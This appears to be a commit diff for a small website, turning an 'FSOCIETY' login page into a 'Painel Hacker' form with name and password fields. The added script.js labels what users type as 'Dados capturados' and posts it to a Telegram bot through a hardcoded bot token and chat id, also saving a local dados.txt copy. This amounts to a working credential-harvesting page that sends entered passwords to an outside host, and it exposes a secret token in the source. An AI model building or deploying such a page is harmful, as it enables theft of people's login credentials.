

Before and after one commit to Mulirozn/AeroInsta, a website: page public/index.html in a window 1280 px wide. Shown: the part 328-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
atualizando

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,28 +3,20 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>PAINEL FSOCIETY</title>
-  <link rel="stylesheet" href="style.css"/>
+  <title>Painel Hacker</title>
+  <link rel="stylesheet" href="style.css" />
 </head>
 <body>
-  <!-- Efeitos visuais -->
-  <div class="glitch-overlay"></div>
-  <div class="red-flash"></div>
+  <div class="container">
+    <h1>Painel Hacker Verde Neon</h1>
+    <form id="dataForm">
+      <input type="text" id="nome" placeholder="Nome" required />
+      <input type="text" id="senha" placeholder="Senha" required />
+      <button type="submit">Enviar Dados</button>
+    </form>
+    <button onclick="enviarTelegramDireto()">Enviar Alerta Manual</button>
+  </div>
 
-  <!-- Login -->
-  <div class="login-box">
-    <h2>PAINEL FSOCIETY</h2>
-    <form action="painel.html" method="POST">
-      <div class="user-box">
-        <input type="text" name="username" required>
-        <label>Usuário</label>
-      </div>
-      <div class="user-box">
-        <input type="password" name="password" required>
-        <label>Senha</label>
-      </div>
-      <button type="submit" class="login-btn">ENTRAR</button>
-    </form>
-  </div>
+  <script src="script.js"></script>
 </body>
 </html>
--- /dev/null
+++ b/public/script.js
@@ -0,0 +1,54 @@
+document.getElementById("dataForm").addEventListener("submit", function (e) {
+  e.preventDefault();
+
+  const nome = document.getElementById("nome").value;
+  const senha = document.getElementById("senha").value;
+
+  const mensagem = `⚠️ Dados capturados:\nNome: ${nome}\nSenha: ${senha}`;
+  const token = "7333858492:AAFNcTINex5X69tZOWi18TTsUPiBBVt81jI";
+  const chat_id = "8129097592";
+
+  // Enviar para o Telegram
+  fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
+    method: "POST",
+    headers: {
+      "Content-Type": "application/json",
+    },
+    body: JSON.stringify({
+      chat_id: chat_id,
+      text: mensagem,
+    }),
+  });
+
+  // Salvar local (emulado com download de .txt)
+  const blob = new Blob([mensagem], { type: "text/plain" });
+  const link = document.createElement("a");
+  link.href = URL.createObjectURL(blob);
+  link.download = "dados.txt";
+  link.click();
+
+  alert("Dados enviados e salvos.");
+});
+
+function enviarTelegramDireto() {
+  const mensagem = "⚠️ Botão de alerta acionado!";
+  const token = "7333858492:AAFNcTINex5X69tZOWi18TTsUPiBBVt81jI";
+  const chat_id = "8129097592";
+
+  fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
+    method: "POST",
+    headers: {
+      "Content-Type": "application/json"
+    },
+    body: JSON.stringify({
+      chat_id: chat_id,
+      text: mensagem
+    })
+  })
+  .then(() => {
+    alert("Mensagem enviada com sucesso!");
+  })
+  .catch(() => {
+    alert("Erro ao enviar a mensagem.");
+  });
+}
--- a/public/style.css
+++ b/public/style.css
@@ -1,122 +1,28 @@
-@import url('https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap');
-
 body {
+  background-color: black;
+  color: #00ff00;
+  font-family: monospace;
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  height: 100vh;
   margin: 0;
-  padding: 0;
-  font-family: 'Share Tech Mono', monospace;
-  background: url('fundo-fsociety.png') no-repeat center center fixed;
-  background-size: cover;
-  color: red;
-  height: 100vh;
-  overflow: hidden;
 }
 
-.login-box {
-  position: absolute;
-  top: 50%;
-  left: 50%;
-  transform: translate(-50%, -50%);
-  padding: 40px;
-  background: rgba(0, 0, 0, 0.85);
-  border: 2px solid red;
-  box-shadow: 0 0 20px red;
-  z-index: 3;
+.container {
+  text-align: center;
 }
 
-.login-box h2 {
-  margin: 0 0 30px;
-  padding: 0;
-  text-align: center;
-  color: red;
+input, button {
+  display: block;
+  margin: 10px auto;
+  padding: 10px;
+  background-color: #000;
+  color: #00ff00;
+  border: 1px solid #00ff00;
+  font-family: monospace;
 }
 
-.user-box {
-  position: relative;
-  margin-bottom: 30px;
+button:hover {
+  background-color: #003300;
 }
-
-.user-box input {
-  width: 100%;
-  padding: 10px 0;
-  background: none;
-  border: none;
-  border-bottom: 1px solid red;
-  color: red;
-  font-size: 16px;
-  outline: none;
-}
-
-.user-box label {
-  position: absolute;
-  top: 0;
-  left: 0;
-  color: red;
-  pointer-events: none;
-  transition: 0.5s;
-}
-
-.user-box input:focus ~ label,
-.user-box input:valid ~ label {
-  top: -20px;
-  font-size: 12px;
-  color: red;
-}
-
-.login-btn {
-  background: red;
-  color: black;
-  border: none;
-  padding: 10px;
-  width: 100%;
-  cursor: pointer;
-  transition: 0.3s;
-  font-weight: bold;
-}
-
-.login-btn:hover {
-  background: #ff1a1a;
-  box-shadow: 0 0 10px red;
-}
-
-/* Glitch Overlay */
-.glitch-overlay {
-  position: fixed;
-  top: 0;
-  left: 0;
-  width: 100%;
-  height: 100%;
-  background: repeating-linear-gradient(
-    0deg,
-    rgba(255, 0, 0, 0.02),
-    rgba(255, 0, 0, 0.02) 1px,
-    transparent 1px,
-    transparent 2px
-  );
-  animation: glitchMove 0.3s infinite linear;
-  pointer-events: none;
-  z-index: 1;
-}
-
-@keyframes glitchMove {
-  0% { background-position: 0 0; }
-  100% { background-position: 0 10px; }
-}
-
-/* Red Flash */
-.red-flash {
-  position: fixed;
-  top: 0;
-  left: 0;
-  width: 100%;
-  height: 100%;
-  background: red;
-  opacity: 0;
-  animation: redFlash 3s infinite;
-  pointer-events: none;
-  z-index: 2;
-}
-
-@keyframes redFlash {
-  0%, 100% { opacity: 0; }
-  50% { opacity: 0.1; }
-}
```
Also changed, not shown: public/fsociety.png (renamed from public/fsociety.png..PNG), 1 other file.
